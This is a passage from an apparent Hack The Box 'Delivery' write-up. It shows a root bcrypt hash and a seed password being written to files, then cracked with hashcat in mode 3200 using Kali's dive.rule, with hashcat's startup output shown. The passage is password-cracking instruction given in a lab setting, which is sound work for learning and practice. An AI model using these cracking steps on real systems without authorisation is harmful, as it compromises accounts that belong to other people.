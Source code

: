 ```sql
9 rows in set (0.000 sec)

```

##### Cracking the root password
Now that we have the root password hash, and suspect it's variant of *PleaseSubscribe!*, we can grab hashcat, and a rule file from kali linux and attmempt to crack it!

First we need to create our hash list and clear text password word file to work from
```bash
echo "$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO" > hash.txt
echo "PleaseSubscribe!" > passwords.txt
```

Now remember that the password isn't actually *PleaseSubscribe!*, but a variant of it. Hashcat can leverage logical rule files to mutate given passwords to try multiple variations at once, and that's what we're going to do. Kali comes with some good rule files located in ```/usr/share/hashcat/rules/```. Any of these will do, but I picked ```/usr/share/hashcat/rules/dive.rule``` because of percentages I've seen online once of successful cracks.

Fire up hashcat
```bash
┌──(lungdart㉿kali)-[~/htb/delivery]                                                                                                                                                                                              [10/1597]
└─$ hashcat -m 3200 hash.txt passwords.txt -r /usr/share/hashcat/rules/dive.rule                                                                                                                                                           
hashcat (v6.1.1) starting...                                                                                                                                                                                                               
                                                                                                                                                                                                                                           
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]                                                                                                              
=============================================================================================================================                                                                                                              
* Device #1: pthread-Intel(R) Core(TM) i3-7130U CPU @ 2.70GHz, 2889/2953 MB (1024 MB allocatable), 2MCU                                                                                                                                    
                                                                                                                                                                                                                                           
Minimum password length supported by kernel: 0                                                                                                                                                                                             
Maximum password length supported by kernel: 72                                                                                                                                                                                            
                                                                                                                                                                                                                                           
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 99086

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: passwords.txt
```